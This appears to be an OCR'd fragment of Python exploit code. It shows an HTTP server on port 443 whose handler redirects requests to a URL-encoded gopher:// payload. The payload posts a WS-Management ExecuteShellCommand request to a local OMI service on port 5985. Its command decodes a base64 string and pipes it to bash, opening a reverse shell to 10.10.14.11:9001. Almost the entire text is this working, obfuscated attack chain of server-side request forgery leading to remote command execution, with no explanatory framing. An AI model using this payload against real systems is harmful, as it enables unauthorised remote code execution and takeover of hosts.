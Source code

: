 ```python
self.send_header("Location", "gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61%6e%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%30%2e%31%30%2e%31%31%2e%31%31%37%3a%35%39%38%36%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%70%79%74%68%6f%6e%2d%72%65%71%75%65%73%74%73%2f%32%2e%32%35%2e%31%0d%0a%41%63%63%65%70%74%2d%45%6e%63%6f%64%69%6e%67%3a%20%67%7a%69%70%2c%20%64%65%66%6c%61%74%65%0d%0a%41%63%63%65%70%74%3a%20%2a%2f%2a%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%73%6f%61%70%2b%78%6d%6c%3b%63%68%61%72%73%65%74%3d%55%54%46%2d%38%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%31%37%32%38%0d%0a%0d%0a%3c%73%3a%45%6e%76%65%6c%6f%70%65%20%78%6d%6c%6e%73%3a%73%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%33%2f%30%35%2f%73%6f%61%70%2d%65%6e%76%65%6c%6f%70%65%22%20%78%6d%6c%6e%73%3a%61%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%38%2f%61%64%64%72%65%73%73%69%6e%67%22%20%78%6d%6c%6e%73%3a%68%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%6d%69%63%72%6f%73%6f%66%74%2e%63%6f%6d%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%69%6e%64%6f%77%73%2f%73%68%65%6c%6c%22%20%78%6d%6c%6e%73%3a%6e%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%39%2f%65%6e%75%6d%65%72%61%74%69%6f%6e%22%20%78%6d%6c%6e%73%3a%70%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%6d%69%63%72%6f%73%6f%66%74%2e%63%6f%6d%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%73%6d%61%6e%2e%78%73%64%22%20%78%6d%6c%6e%73%3a%77%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%73%6d%61%6e%2e%78%73%64%22%20%78%6d%6c%6e%73%3a%78%73%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%4d%4c%53%63%68%65%6d%61%22%3e%0a%20%20%20%3c%73%3a%48%65%61%64%65%72%3e%0a%20%20%20%20%20%20%3c%61%3a%54%6f%3e%48%54%54%50%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%2e%31%3a%35%39%38%36%2f%77%73%6d%61%6e%2f%3c%2f%61%3a%54%6f%3e%0a%20%20%20%20%20%20%3c%77%3a%52%65%73%6f%75%72%63%65%55%52%49%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%3c%2f%77%3a%52%65%73%6f%75%72%63%65%55%52%49%3e%0a%20%20%20%20%20%20%3c%61%3a%52%65%70%6c%79%54%6f%3e%0a%20%20%20%20%20%20%20%20%20%3c%61%3a%41%64%64%72%65%73%73%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%38%2f%61%64%64%72%65%73%73%69%6e%67%2f%72%6f%6c%65%2f%61%6e%6f%6e%79%6d%6f%75%73%3c%2f%61%3a%41%64%64%72%65%73%73%3e%0a%20%20%20%20%20%20%3c%2f%61%3a%52%65%70%6c%79%54%6f%3e%0a%20%20%20%20%20%20%3c%61%3a%41%63%74%69%6f%6e%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%2f%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%3c%2f%61%3a%41%63%74%69%6f%6e%3e%0a%20%20%20%20%20%20%3c%77%3a%4d%61%78%45%6e%76%65%6c%6f%70%65%53%69%7a%65%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%31%30%32%34%30%30%3c%2f%77%3a%4d%61%78%45%6e%76%65%6c%6f%70%65%53%69%7a%65%3e%0a%20%20%20%20%20%20%3c%61%3a%4d%65%73%73%61%67%65%49%44%3e%75%75%69%64%3a%30%41%42%35%38%30%38%37%2d%43%32%43%33%2d%30%30%30%35%2d%30%30%30%30%2d%30%30%30%30%30%30%30%31%30%30%30%30%3c%2f%61%3a%4d%65%73%73%61%67%65%49%44%3e%0a%20%20%20%20%20%20%3c%77%3a%4f%70%65%72%61%74%69%6f%6e%54%69%6d%65%6f%75%74%3e%50%54%31%4d%33%30%53%3c%2f%77%3a%4f%70%65%72%61%74%69%6f%6e%54%69%6d%65%6f%75%74%3e%0a%20%20%20%20%20%20%3c%77%3a%4c%6f%63%61%6c%65%20%78%6d%6c%3a%6c%61%6e%67%3d%22%65%6e%2d%75%73%22%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%66%61%6c%73%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%70%3a%44%61%74%61%4c%6f%63%61%6c%65%20%78%6d%6c%3a%6c%61%6e%67%3d%22%65%6e%2d%75%73%22%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%66%61%6c%73%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%77%3a%4f%70%74%69%6f%6e%53%65%74%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%77%3a%53%65%6c%65%63%74%6f%72%53%65%74%3e%0a%20%20%20%20%20%20%20%20%20%3c%77%3a%53%65%6c%65%63%74%6f%72%20%4e%61%6d%65%3d%22%5f%5f%63%69%6d%6e%61%6d%65%73%70%61%63%65%22%3e%72%6f%6f%74%2f%73%63%78%3c%2f%77%3a%53%65%6c%65%63%74%6f%72%3e%0a%20%20%20%20%20%20%3c%2f%77%3a%53%65%6c%65%63%74%6f%72%53%65%74%3e%0a%20%20%20%3c%2f%73%3a%48%65%61%64%65%72%3e%0a%20%20%20%3c%73%3a%42%6f%64%79%3e%0a%20%20%20%20%20%20%3c%70%3a%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%5f%49%4e%50%55%54%20%78%6d%6c%6e%73%3a%70%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%22%3e%0a%20%20%20%20%20%20%20%20%20%3c%70%3a%63%6f%6d%6d%61%6e%64%3e%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4d%53%38%35%4d%44%41%78%49%44%41%2b%4a%6a%45%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%3c%2f%70%3a%63%6f%6d%6d%61%6e%64%3e%0a%20%20%20%20%20%20%20%20%20%3c%70%3a%74%69%6d%65%6f%75%74%3e%30%3c%2f%70%3a%74%69%6d%65%6f%75%74%3e%0a%20%20%20%20%20%20%3c%2f%70%3a%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%5f%49%4e%50%55%54%3e%0a%20%20%20%3c%2f%73%3a%42%6f%64%79%3e%0a%3c%2f%73%3a%45%6e%76%65%6c%6f%70%65%3e%0a")
```python
self.end_headers()

httpd = HTTPServer(('0.0.0.0', 443), MainHandler)
```